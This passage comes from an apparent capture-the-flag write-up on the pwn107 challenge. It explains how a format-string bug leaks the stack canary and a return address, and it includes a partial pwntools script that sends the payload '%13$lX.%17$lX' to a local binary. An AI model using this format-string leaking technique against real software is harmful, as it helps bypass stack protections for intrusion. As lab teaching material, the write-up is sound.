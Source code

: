 We leak the addresses from 6th position - Notice the 0x44434241!

If we now want to leak 7th and 11th position from top of the RSP (7th = canary, 11th = function to return to) we just need to add 6th. Let's test this in debugger! We will leak 13th and 17th position respectively!

![picture 58](/assets/images/423171e5f8615ff8aff4008fb2155d9f9e19ca3c14e32c68540dab9b26b5ea79.png)  

Now after running following script, the leaks seem right
```python
'''
Exploit starts with format string vulnerability with first entry (Read function). It can read only 20 Bytes.
It was calculated that canary leaks at 13th position 
and the function to return to at 17th.
'''
from pwn import *

context.binary = binary = ELF("./pwn107.pwn107",checksec=False)

# This serves just to get the offset from the start of the binary
static_libc_csu_address = binary.symbols.__libc_csu_init

print("Address of static libc csu init: {}".format(hex(static_libc_csu_address)))

p = process()
p.recvuntil(b"streak?")

payload = b"%13$lX.%17$lX"
p.sendline(payload)

p.recvuntil(b"streak:")

```
